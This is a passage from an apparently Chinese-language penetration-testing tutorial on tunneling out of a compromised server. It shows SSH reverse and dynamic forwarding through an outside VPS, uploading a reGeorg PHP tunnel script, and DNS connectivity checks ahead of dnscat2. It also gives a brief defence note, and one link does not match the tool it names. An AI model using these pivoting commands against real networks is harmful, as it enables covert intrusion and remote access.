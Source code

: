    在拿下的服务器上：

   ```bash
   ssh -CfNg -R 3306:TargetIP:3389 root@VPSIp
   ```

   其中第一个3306是VPS的端口，TargetIP是希望访问的目标主机IP，后面的3389是目标端口。

3. 动态转发

   VPS上执行命令，建立一个动态的Sock 4/5代理：

   ```bash
   ssh -CfNg -D 7000 root@IP
   ```

   这里的IP是跳板机的IP，7000是本地端口。

4. 防御SSH隧道的思路

   在ACL中配置只有特定的IP地址连接SSH、设置系统完全使用带外管理或至少现在SSH远程登录的地址和双向访问控制策略。

#### HTTP/HTTPS协议

常见的工具有：**reGeorg、meterpreter、tunna**

这里说一下reGeorg：[besimorhino/powercat: netshell features all in version 2 powershell (github.com)](https://github.com/besimorhino/powercat)

以PHP为例，上传reGeorg的PHP脚本，然后使用：

```bash
python2 reGeorgSocksProxy.py -u http://192.168.140.132/tunnel.php -p 10080
```

#### DNS协议

使用DNS协议建立隧道会导致DNS流量激增，被发现可能性极大。

但是由于DNS服务几乎不可能被禁，DNS隧道已经称为攻击者控制隧道的主流渠道。

##### 查看DNS的连通性

首先查看当前服务器能否允许通过内部DNS解析外部域名，即测试DNS的连通性：

```bash
cat /etc/resolv.conf | grep v '#'
```

接着查看能否与内部DNS通信：

```bash
nslookup 内部域名
```

查看能否通过内部DNS解析外部域名：

```bash
nslookup baidu.com
```

##### dnscat2
